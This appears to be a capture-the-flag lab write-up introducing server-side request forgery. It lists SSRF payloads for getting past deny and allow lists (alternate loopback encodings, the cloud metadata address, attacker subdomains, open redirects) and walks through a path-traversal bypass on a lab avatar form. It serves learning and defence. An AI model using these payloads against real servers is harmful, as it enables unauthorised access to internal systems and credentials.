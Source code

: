 # 📌 Intro to SSRF

## ✅ Task 1: What is SSRF?

**Server-Side Request Forgery (SSRF)** is a web security vulnerability allowing attackers to induce a server into making unauthorized requests to internal or external resources.

### 🔍 Types of SSRF:

* **Regular SSRF:**
  The server directly returns data from the requested resource to the attacker.

* **Blind SSRF:**
  No direct response is returned. Attackers confirm exploitation indirectly via logs or external server interactions.

### ⚠️ Potential Impacts:

* Unauthorized internal network access
* Sensitive data extraction (credentials, configuration files)
* Bypass IP-based authentication
* Access restricted administrative endpoints

---

## ✅ Task 2: SSRF Examples

Typical SSRF occurs when web apps fetch external resources without proper input validation.

**Example Exploit:**
An attacker could request internal admin pages:

```
http://127.0.0.1/admin
```

---

## ✅ Task 3: Finding an SSRF

Common places to find potential SSRF:

1. **Full URL Parameter (GET Request):**

```
https://website.thm/form?server=http://server.website.thm/store
```

2. **Hidden HTML Form Fields:**

```html
<form method="post" action="/form">
    <input type="hidden" name="server" value="http://server.website.thm/store">
</form>
```

3. **Hostname Parameters:**

```
https://website.thm/form?server=api
```

4. **Path-Based Parameters:**

```
https://website.thm/form?dst=/forms/contact
```

---

## ✅ Task 4: Defeating Common SSRF Defenses

### 🔒 Bypassing Deny Lists:

Commonly blocked resources like `localhost` or internal IPs (`127.0.0.1`) can be accessed via alternative representations:

* `localhost`
* `127.1`, `127.0.0.1`, `127.*.*.*`
* Decimal form: `2130706433`
* Subdomains resolving to internal IP: `127.0.0.1.nip.io`

Cloud metadata IP (e.g., AWS: `169.254.169.254`) can similarly be bypassed using DNS redirections.

### 🔓 Bypassing Allow Lists:

Allowed domains (e.g., `https://website.thm`) might be bypassed using attacker-controlled subdomains:

* Allowed:

```
https://website.thm
```

* Bypass:

```
https://website.thm.attackers-domain.com
```

### 🔀 Using Open Redirects:

Use open redirect endpoints to redirect requests to internal resources:

* Original allowed URL:

```
https://website.thm/link?url=https://trusted.com
```

* SSRF using open redirect:

```
https://website.thm/link?url=http://internal-resource
```

---

## ✅ Task 5: SSRF Practical Walkthrough

1. **Create Account & Log In:**

* Access:

```
https://LAB_WEB_URL.p.thmlabs.com/customers/new-account-page
```

2. **Inspect Avatar HTML:**

```html
<div class="avatar-image" style="background-image: url('/assets/avatars/1.png')"></div>
<input type="radio" name="avatar" value="assets/avatars/1.png">
```

3. **Select Avatar & Update:**

* Choose an avatar, click "Update Avatar".

4. **Confirm Base64 Avatar Image:**

```html
<div class="avatar-image" style="background-image: url(data:image/png;base64,...)"></div>
```

5. **Attempt SSRF (initial):**

* Right-click avatar → Inspect → Edit input:

```html
<input type="radio" name="avatar" value="private">
```

* Submit form and receive an error:

```
URL cannot start with /private
```

6. **Bypass Using Path Traversal:**

* Edit input again:

```html
<input type="radio" name="avatar" value="x/../private">
```

* Server interprets this as `/private`, bypassing deny list rules.

7. **Retrieve & Decode Flag:**

* After updating, inspect the avatar again.
* The server returns base64 data from the `/private` endpoint.
* Decode this base64 data to obtain the hidden flag.

---

## ✅ Recommendations & Mitigations:

* Employ strict URL validation (whitelisting).
* Prevent user-controlled URLs from accessing internal resources.
* Explicitly block sensitive IP addresses (`127.0.0.1`, `localhost`, `169.254.169.254`).
* Implement robust server-side input validation and filtering.

---

✅ **Happy Hacking! 🎉**
